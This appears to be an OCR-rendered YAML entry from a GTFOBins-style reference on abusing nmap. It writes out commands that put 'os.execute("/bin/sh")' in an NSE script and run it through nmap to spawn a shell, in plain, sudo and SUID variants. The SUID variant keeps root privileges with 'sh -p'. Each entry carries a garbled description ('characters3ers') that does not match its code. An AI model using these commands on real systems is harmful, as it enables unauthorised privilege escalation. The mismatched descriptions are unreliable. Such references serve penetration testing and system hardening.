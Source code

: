 ```yaml
---
functions:
  execute-non-interactive:
    - description: Echoing of input characters3ers is disabled.
      code: |
        echo 'os.execute("/bin/sh")' > /tmp/script.nse
        nmap --script=/tmp/script.nse
  sudo-enabled:
    - description: Echoing of input characters3ers is disabled.
      code: |
        echo 'os.execute("/bin/sh")' > /tmp/script.nse
        sudo nmap --script=/tmp/script.nse
  suid-enabled:
    - description: Echoing of input characters3ers is disabled.
      code: |
        echo 'os.execute("/bin/sh -p")' > /tmp/script.nse
        ./nmap --script=/tmp/script.nse
---
```

